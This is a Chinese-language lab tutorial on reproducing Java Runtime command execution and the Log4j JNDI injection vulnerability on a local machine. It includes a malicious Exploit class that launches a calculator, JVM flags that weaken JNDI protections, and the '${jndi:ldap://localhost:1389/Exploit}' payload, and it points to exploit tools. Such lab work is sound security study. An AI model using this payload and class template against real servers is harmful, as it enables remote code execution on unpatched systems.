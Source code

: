 # 基于Runtime的Java远程命令执行
> 很多Java命令执行都是使用该知识点
>
> 如果`runtime` `exec`等关键词被绕过，可以使用Java反射机制来构成新的远程命令执行
>

## 无任何过滤的Runtime远程命令执行
```java
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {}
}
```

```shell
# 编译成class字节码
javac Exploit.java
```

## 过滤了关键字的Runtime远程命令执行
> 待补充
>

# 漏洞复现前提
# Java版本问题
目前常用的都是`java1.8`，但是在一些需要远程 `JNDI/RMI RCE` 调用的时候，`JDK 1.8u191` 开始修复了 JNDI 注入的一些利用方式，默认禁用了从远程地址加载类。可以查看一下自己当前系统的Java环境版本。使用的命令为：

```shell
java -version
```

![](https://cdn.nlark.com/yuque/0/2025/png/53790070/1750913764807-22321542-b806-4706-8f33-ac44783d9668.png)

当前我的系统存在两个Java版本，`JDK 1.8`和`JDK 17`。至于怎么知道自己JDK的具体版本。其对应如下：

`1.8.0_XXX` => `JDK 8uXXX`	Java 8 及之前版本命名方式

`17.0.15` => `JDK [主版本].[次版本].[补丁版本]`     Java 9 之后命名方式

例如我的系统环境对应如下：  

`openjdk version "1.8.0_452"`对应`JDK 1.8u452`

`openjdk version "17.0.15"`对应`JDK 17.0.15`

如果JDK版本>=`JDK 1.8u191`，可以`重新安装低版本的JDK`或者`添加 JVM 启动参数`。重新安装低版本的JDK就不说了，在这里说一下如何添加JVM的启动参数。

## 添加JVM的启动参数
通过添加如下的启动参数，可以自定义开启远程地址加载：

```shell
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

### 方案一（命令行运行时）
```shell
javac Exploit.java
java -Dcom.sun.jndi.rmi.object.trustURLCodebase=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=true Exploit
```

### 方案二（IDEA上测试时）
在IDEA的右上角编辑环境配置

![](https://cdn.nlark.com/yuque/0/2025/png/53790070/1750914874597-4943ebe6-7476-45b4-befb-5a8217ec054c.png)

点击`Modify options`

![](https://cdn.nlark.com/yuque/0/2025/png/53790070/1750914954210-97a03d2f-54e8-4920-b26e-f84ea7ff6377.png)

在下拉列表中选择`Add VM options`

![](https://cdn.nlark.com/yuque/0/2025/png/53790070/1750915012037-c36df166-95a7-4d5b-843c-45b62bf0ca25.png)

最后添加上面的JVM参数应用即可

![](https://cdn.nlark.com/yuque/0/2025/png/53790070/1750915088307-07009573-9d16-482a-b231-ffb1852b29e0.png)

# Log4j漏洞复现
本环境使用的是IDEA配合`JDK 1.8u452`、`log4j 2.14.1`进行复现，使用`maven`作为库管理。

```xml
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <version>2.14.1</version>
</dependency>
```

```java
package com.example.log4j;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {

    private static final Logger logger = LogManager.getLogger(Log4jTest.class);

    public static void main(String[] args) {
        String code = "${jndi:ldap://localhost:1389/Exploit}";
        logger.error("{}", code);
    }
}

```

使用上面编译好的`Exploit`字节码文件作为恶意类，借用JNDI GUI工具进行测试。

在Exploit字节码文件所在的路径下开启http服务，并同时开启ldap服务和rmi服务，可以使用 [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit.git) 或者 [marshalsec](https://github.com/mbechler/marshalsec.git) 工具。本文章是在本地复现且为了方便，使用自己开发的小工具：[JNDIInjectorGUI](https://github.com/Minshenyao/JNDIInjectorGUI.git)。

![](https://cdn.nlark.com/yuque/0/2025/png/53790070/1750915473028-f076daf7-a637-41b9-9c89-d903d7b09e49.png)

然后运行Log4jTest.java代码进行测试：

成功执行了恶意类，弹出了计算器，如果测试rmi只需要更改11行代码为:

`String code = "${jndi:rmi://localhost:1099/Exploit}";`

![](https://cdn.nlark.com/yuque/0/2025/png/53790070/1750915554276-a4e932ac-9473-4d26-9b10-1cc5b75680f8.png)

![](https://cdn.nlark.com/yuque/0/2025/png/53790070/1750915710628-d9ef3263-0ab4-4836-a977-6965951ac27f.png)

# 总结
比较大众熟知的 Java 反序列化漏洞，比如 Fastjson、Jackson，这些库之前都被爆出过可以利用。基本上问题都是出在反序列化的时候，用户可以伪造或者替换原本应该反序列化的类，结果就执行了不该执行的代码。

我们可以利用 [ysoserial](https://github.com/frohoff/ysoserial.git) 工具来进行复现，它里面内置了很多漏洞利用方式，比如最出名的就是 cc 链，只要目标用了对应版本的依赖链，打起来就很顺。

